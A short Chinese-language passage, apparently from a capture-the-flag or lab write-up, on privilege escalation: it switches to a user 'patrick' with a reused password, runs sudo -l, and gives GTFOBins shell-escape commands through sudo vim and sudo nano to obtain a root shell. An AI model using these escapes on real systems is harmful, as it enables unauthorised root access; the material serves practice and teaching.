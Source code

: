 # 提权

结合目前信息来看，`su`可能有用，尝试以之前的用户`patrick`和密码进行切换，确实可行

使用`sudo -l`测试

![](./pic-devt/31.jpg)

两种方式，访问网站`https://gtfobins.github.io/`查看用法

```shell
#vim
sudo vim -c ':!/bin/sh'

#nano
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![](./pic-devt/32.jpg)
